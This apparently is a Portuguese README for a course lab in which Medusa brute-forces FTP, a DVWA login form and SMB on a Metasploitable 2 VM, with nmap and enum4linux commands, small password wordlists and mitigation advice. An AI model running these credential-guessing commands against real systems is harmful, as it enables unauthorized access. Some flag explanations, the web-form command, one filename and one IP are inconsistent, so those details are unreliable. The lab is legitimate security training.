 **Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlad**o)



Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox — host-only / rede interna).



⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**



* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* images/ (screenshots)



**Objetivos do projeto:**



1. Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only / interna.
2. Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3. Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4. Estrutura das VMs (configuração sugerida)
5. Instalar VirtualBox.
6. Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7. VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8. VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9. Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux)
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).



**Comandos - varredura inicial**



Descobrir serviços com nmap:



nmap -sV -p 21,22,80,139,445 192.168.56.101



**Ataque FTP com Medusa**



Objetivo: força bruta contra usuário conhecido (ex: admin) com uma wordlist pequena.



\# Exemplo: testar usuário admin com wordlists no host 192.168.56.101

medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6



**Explicação das flags:**



-h host alvo



-u usuário único (use -U para arquivo de usuários)



-P caminho da wordlist de senhas



-M ftp módulo FTP



-T 6 threads (ajuste conforme ambiente)



-f encerra ao encontrar credenciais válidas



Validação: após encontrar credenciais, faça login com ftp:



ftp 192.168.56.101



**Ataque a formulário web (DVWA) com Medusa (http\_form)**



DVWA costuma ter login em /dvwa/login.php. Exemplo de uso do módulo http\_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):



\# Exemplo genérico de http\_form (substitua os campos conforme o formulário real)

-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \\

-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \\

-m 'FAIL=Login failed' -t 6



Validação: tente fazer login no navegador usando as credenciais encontradas



**Password spraying em SMB (com enumeração de usuários)**



* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).



\# Enumeração com enum4linux

enum4linux -a 192.168.56.101 | tee enum4\_output.txt



\#Crie wordlists conforme ajuste:



echo -e "user\\nmsfadmin\\nservice" > smb\_users.txt



echo -e "password\\n123456\\nWelcome123\\nmsfadmin" > senhas spray.txt



Medusa smbnt (sintaxe genérica — ajuste conforme versão):



\# Usando arquivo de usuários (-U) e uma pequena wordlist (-P)

medusa -h 192.168.56.101 -U smb\_users.txt -P senhas\_spray.txt -M smbnt -t 2 -T 50



* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal / spraying: para vários usuários tenta poucas senhas comuns.



Validação: se houver credenciais válidas, usar smbclient para acesso:



smbclient -L //192.168.56.20 -U msfadmin



**Recomendações de mitigação (boas práticas):**



* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.

